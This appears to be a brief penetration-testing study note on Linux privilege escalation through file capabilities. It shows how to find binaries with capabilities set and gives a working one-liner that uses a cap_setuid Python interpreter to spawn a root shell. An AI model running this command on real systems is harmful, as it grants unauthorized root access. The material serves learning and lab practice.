 ### Detection

##### Search for Files with Capabilities
```
getcap -r / 2>/dev/null
```

- `getcap`: List the ***file capabilities*** set on executable files. Capabilities are a way to grant specific privileges to programs without needing to give them full root access via SUID.

##### Notice the `cap_setuid` Capability
```
/usr/bin/python2.6 = cap_setuid+ep
```

- `/usr/bin/python2.6` has the `cap_setuid+ep` capability set, allowing it to change its user ID.

	`Key Capabilities to Target`
	- `cap_setuid`: Allows a program to change its user ID (`UID').
	- `cap_setgid`: Allows a program to change its group ID (`GID').
	- `cap_dac_override`: Overrides DAC, allowing a program to bypass file permissions.
	- `cap_sys_admin`: Provides various system administration capabilities.

### Exploitation
```
/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

- `os.setuid(0)`: Changes the user ID of the running process to `0`.
- `os.system("/bin/bash")`: Executes the bash shell as the root user, giving you a root shell.

